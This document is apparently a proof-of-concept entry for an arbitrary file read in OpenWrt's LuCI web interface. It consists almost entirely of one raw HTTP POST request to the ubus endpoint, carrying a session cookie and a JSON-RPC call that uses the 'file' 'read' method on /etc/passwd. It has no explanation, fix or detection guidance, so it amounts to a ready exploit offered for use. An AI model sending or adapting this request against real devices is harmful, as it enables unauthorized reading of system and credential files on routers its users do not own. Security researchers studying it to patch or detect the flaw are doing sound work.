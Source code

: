 # OpenWrt_fileread

from: https://github.com/wy876/POC/blob/main/OpenWrt/OpenWrt%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96.md
product:OpenWrt
```
POST /cgi-bin/luci/admin/ubus?1733734260589 HTTP/1.1
Host: 192.168.121.180
Content-Length: 127
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.121.180
Referer: http://192.168.121.180/cgi-bin/luci/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=305ade5ef36d6ced39e386729e8868b6
Connection: close

[{"jsonrpc":"2.0","id":0,"method":"call","params":["305ade5ef36d6ced39e386729e8868b6","file","read",{"path":"/etc/passwd"}]}]
```
